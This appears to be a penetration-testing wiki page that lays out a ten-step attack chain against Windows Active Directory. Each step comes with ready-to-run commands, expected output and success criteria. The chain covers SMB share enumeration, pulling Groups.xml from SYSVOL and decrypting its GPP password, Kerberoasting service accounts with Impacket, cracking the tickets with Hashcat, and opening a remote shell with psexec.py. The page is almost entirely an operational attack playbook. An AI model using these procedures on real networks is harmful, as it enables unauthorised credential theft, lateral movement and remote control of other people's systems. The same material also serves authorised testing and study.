

# Enumerate-SMB-Shares-Decrypt-GPP-Kerberoast-and-PsExec-Access

Multi-stage attack chain demonstrating reconnaissance, credential discovery, and lateral movement in a Windows Active Directory environment via SMB shares, Group Policy exploitation, Kerberoasting, and PSExec.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 10 |
| Execution Time | ~4-8 hours |
| Skill Level | Beginner-Intermediate |
| Complexity | High |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/smbclient]]
- [[tools/SMBMap]]
- [[tools/gpp-decrypt]]
- [[tools/Impacket]]
- [[tools/Hashcat]]

### Target Environment

- Windows domain environment with Active Directory
- SMB services (port 445) accessible
- SYSVOL share available
- Valid domain credentials for authenticated steps

### Initial Access Requirements

- Network connectivity to target IP/domain controller
- Low-privilege domain user credentials for enumeration and Kerberoasting
- Wordlist for hash cracking (e.g., rockyou.txt)

## Detailed Attack Procedures

### Step 1: Perform Basic Port Scan
procedure: [[procedures/Perform-Basic-Port-Scan-with-Service-Enumeration]]

**Objective**: Identify open ports and services on the target, focusing on SMB (445) for further enumeration.

**Instructions**: Run an Nmap scan to detect services on common ports. Use [[commands/nmap-port-scan-with-service-version-detection]] to enumerate versions:

```bash
nmap -sV $_TARGET_IP
```

Verify SMB is open and note the version for potential vulnerabilities.

**Expected Output**: List of open ports with service details, e.g., 445/tcp open microsoft-ds Windows 10.

**Success Indicators**:
- SMB port (445) detected as open
- Service version information retrieved

### Step 2: List Available SMB Shares
procedure: [[procedures/List-Available-SMB-Shares]]

**Objective**: Discover accessible SMB shares on the target without authentication or with null session.

**Instructions**: Use smbclient or SMBMap to list shares. Start with null session using [[commands/smbclient-list-smb-shares]]:

```bash
smbclient -U '' -N -L $_TARGET_IP
```

If needed, authenticate with [[commands/smbmap-list-smb-shares]]:

```bash
smbmap -u '$_USERNAME' -p '$_PASSWORD' -H $_TARGET_IP
```

**Expected Output**: Table of shares like IPC$, ADMIN$, SYSVOL with permissions.

**Success Indicators**:
- SYSVOL or other shares listed
- Permissions (READ ONLY, NO ACCESS) identified

### Step 3: Browse SMB Share Interactively
procedure: [[procedures/Browse-SMB-Share-Interactively]]

**Objective**: Interact with an SMB share to explore contents and identify sensitive files.

**Instructions**: Connect to a discovered share like SYSVOL using [[commands/smbclient-connect-to-smb-share]]:

```bash
smbclient -U $_USERNAME%$_PASSWORD //$_TARGET_IP/SYSVOL
```

Once connected, use 'ls' to list files and 'get' to download interesting ones.

**Expected Output**: Interactive shell showing directory listing, e.g., Groups.xml in Policies folder.

**Success Indicators**:
- Successful connection to share
- Files like Groups.xml visible

### Step 4: Search and Download Files from SMB Share
procedure: [[procedures/Search-and-Download-Files-from-SMB-Share]]

**Objective**: Recursively search for sensitive files (e.g., passwords, configs) and download matches.

**Instructions**: Use SMBMap to search for files matching patterns like 'password' or 'groups' with [[commands/smbmap-search-smb-share-recursively]]:

```bash
smbmap -u $_USERNAME -p $_PASSWORD -R SYSVOL -H $_TARGET_IP -A 'groups.xml' -q
```

Download any matches to local directory.

**Expected Output**: Matches found and downloaded, e.g., [+] Match found! Downloading: SYSVOL\groups.xml.

**Success Indicators**:
- Sensitive files identified and downloaded
- No access denied errors

### Step 5: Decrypt Group Policy Preferences Password
procedure: [[procedures/Decrypt-Group-Policy-Preferences-Password]]

**Objective**: Extract and decrypt embedded passwords from GPP XML files found in SYSVOL.

**Instructions**: Open downloaded Groups.xml and extract the encrypted cpassword attribute. Decrypt using [[commands/gpp-decrypt-extract-password-from-encrypted-string]]:

```bash
gpp-decrypt $_ENCRYPTED_STRING
```

Save the plaintext password for later use.

**Expected Output**: Plaintext password, e.g., MyUnclesAreMarioAndLuigi!!1!.

**Success Indicators**:
- Valid encrypted string found in XML
- Decryption yields usable credentials

### Step 6: Enumerate All Active Directory Users
procedure: [[procedures/Enumerate-All-Active-Directory-Users]]

**Objective**: List domain users to identify potential service accounts for Kerberoasting.

**Instructions**: Authenticate to domain controller and query users using [[commands/getadusers-enumerate-active-directory-users]]:

```bash
GetADUsers.py '$_DOMAIN/$_USERNAME:$_PASSWORD' -dc-ip $_DOMAIN_IP -all
```

Review output for users with SPNs or admin privileges.

**Expected Output**: Table of users with details like Name, Email, PasswordLastSet.

**Success Indicators**:
- List of domain users retrieved
- Service accounts identified

### Step 7: Kerberoast Service Accounts in Domain
procedure: [[procedures/Kerberoast-Service-Accounts-in-Domain]]

**Objective**: Request and dump Kerberos TGS tickets for service accounts to obtain crackable hashes.

**Instructions**: Query SPNs and request tickets using [[commands/getuserspns-kerberoast-spns-and-dump-hashes]]:

```bash
GetUserSPNs.py '$_DOMAIN/$_USERNAME:$_PASSWORD' -dc-ip $_DOMAIN_IP -request
```

Save the $krb5tgs$ hashes for cracking.

**Expected Output**: List of SPNs and hashes, e.g., $krb5tgs$23$*user$DOMAIN$service/*$hash.

**Success Indicators**:
- TGS tickets requested successfully
- Hashes in crackable format

### Step 8: Identify Hash Type for Cracking
procedure: [[procedures/Identify-Hash-Type-for-Cracking]]

**Objective**: Determine the hash format and select appropriate Hashcat mode.

**Instructions**: Analyze the hash string by checking prefix (e.g., $krb5tgs$) and length. Reference Hashcat example hashes to find mode (e.g., 13100 for Kerberos 5 TGS-REP etype 23).

No specific command needed; manual identification.

**Expected Output**: Hash mode identified, e.g., Mode 13100 for Kerberos TGS.

**Success Indicators**:
- Hash type and mode confirmed
- Ready for cracking

### Step 9: Brute Force Password Hashes with Hashcat
procedure: [[procedures/Brute-Force-Password-Hashes-with-Hashcat]]

**Objective**: Crack obtained hashes using dictionary attack to recover plaintext passwords.

**Instructions**: Run Hashcat with identified mode and wordlist using [[commands/hashcat-brute-force-password-hashes]]:

```bash
hashcat -m 13100 $_HASH_FILE $_WORDLIST
```

Monitor for cracked passwords.

**Expected Output**: Cracked hash:password pairs, e.g., $krb5tgs$...:plaintextpassword.

**Success Indicators**:
- Hashes cracked successfully
- Valid credentials obtained

### Step 10: Establish Remote Shell with PSExec
procedure: [[procedures/Establish-Remote-Shell-with-PsExec]]

**Objective**: Use cracked credentials to gain remote command shell access via PSExec.

**Instructions**: Connect to target using Impacket's psexec.py with [[commands/impacket-psexec-connect-and-spawn-shell]]:

```bash
psexec.py $_DOMAIN/$_USERNAME:$_PASSWORD@$_TARGET_IP
```

Execute commands in the spawned shell.

**Expected Output**: Interactive Windows cmd shell, e.g., C:\Windows\system32>.

**Success Indicators**:
- Service created and started successfully
- Remote shell established

## Attack Chain Summary

### Key Achievements

- SMB shares enumerated and sensitive files downloaded
- GPP passwords decrypted for initial credentials
- AD users listed and service accounts Kerberoasted
- Hashes cracked to obtain service account passwords
- Lateral movement achieved via PSExec shell

---

*Last updated: 2023-05-29T16:48:53.162677+00:00*
